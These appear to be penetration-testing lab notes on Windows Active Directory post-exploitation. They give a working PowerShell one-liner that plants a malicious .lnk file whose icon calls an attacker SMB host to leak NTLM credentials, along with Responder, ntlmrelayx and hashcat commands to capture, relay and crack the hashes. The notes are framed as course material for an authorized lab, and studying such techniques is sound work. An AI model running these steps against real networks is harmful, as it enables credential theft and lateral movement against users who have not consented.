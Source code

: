 # Windows Post-Exploitation — PEH Lab Notes

Notes from the Practical Ethical Hacking Active Directory lab.  
All actions performed in an **authorized lab environment**.

---

# 1 Capturing NTLM via Malicious `.lnk` Files

**Goal:** Plant a `.lnk` file in a writable share so that when a user browses the folder, the custom icon forces their machine to authenticate to your attacker box over SMB, leaking NTLM credentials.

**Quick flow:**
1. From Meterpreter → `shell` → `net view \\TARGET-SERVER` → find writable share.
2. Map share (`net use Z:`) and test write with `echo test > Z:\file.txt`.
3. In PowerShell, create `.lnk` with `IconLocation` = `\\ATTACKER-IP\icon\foo.ico`.
4. Background the shell (`CTRL+Z`, `y`) to keep session alive.
5. Run Responder or impacket SMB server on Kali.
6. Wait for user to view share → collect hashes.

**One-liner PowerShell from Meterpreter:**
```powershell
$a='192.0.2.10';$d='\\\\TARGET-SERVER\\\\hackme\\\\readme.lnk';$s=New-Object -ComObject WScript.Shell;$l=$s.CreateShortcut($d);$l.TargetPath='cmd.exe';$l.Arguments='/c exit';$l.WorkingDirectory=$env:SystemRoot+'\\System32';$l.IconLocation='\\\\'+$a+'\\icon\\foo.ico';$l.Description='Readme';$l.Save()
```

---

## Collecting Hashes (Quick)

**Responder** — capture NetNTLMv2:
```bash
sudo responder -I eth0 -dwv
```
- Logs in `/usr/share/responder/logs/SMB-NTLMv2-*.txt`.
- Crack with:
```bash
hashcat -m 5600 /path/to/hash.txt /wordlist
```

**ntlmrelayx** — relay or capture:
```bash
echo "\\\\TARGET1" > targets.txt
sudo ntlmrelayx.py -tf targets.txt -smb2support -of hashes.txt
```

---

**Disclaimer:** For PEH lab use only. Do not attempt on networks you do not own or have explicit permission to test.

